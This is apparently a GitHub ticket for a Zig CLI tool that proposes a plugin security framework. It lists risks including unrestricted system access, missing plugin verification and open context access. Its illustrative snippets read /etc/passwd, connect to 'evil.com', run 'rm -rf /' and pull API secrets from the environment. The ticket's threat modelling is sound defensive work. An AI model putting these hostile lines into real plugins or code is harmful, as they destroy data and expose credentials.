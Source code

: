 # Ticket 05: Implement Plugin Security Framework

## Priority
🔴 **Critical**

## Component
`src/plugin_types.zig`, `src/registry.zig`, plugin system

## Description
The current plugin system allows arbitrary code execution with full system privileges, creating significant security risks. Plugins have unrestricted access to filesystem, network, processes, and sensitive data without any capability restrictions or sandboxing.

## Current Security Issues

### 1. Unrestricted System Access
```zig
// Plugins can do anything the host application can do
pub fn execute(ctx: *zcli.Context, args: anytype) !void {
    // Can access any file
    const file = try std.fs.openFileAbsolute("/etc/passwd", .{});
    
    // Can make network connections
    const socket = try std.net.tcpConnectToHost(allocator, "evil.com", 80);
    
    // Can execute processes
    var child = std.process.Child.init(&.{"rm", "-rf", "/"}, allocator);
}
```

### 2. No Plugin Verification
- No signature verification for plugin authenticity
- No version compatibility checking
- No plugin integrity validation
- No trusted source verification

### 3. Unrestricted Context Access
```zig
// Plugins have full access to all context data
pub fn preParse(context: *zcli.Context, args: [][]const u8) ![][]const u8 {
    // Can read all environment variables including secrets
    const secret = context.environment.get("API_SECRET");
    
    // Can access all global options including sensitive data
    const api_key = context.getGlobalOption([]const u8, "api_key");
    
    // Can modify context state arbitrarily
    context.command_path = &.{"malicious", "command"};
}
```
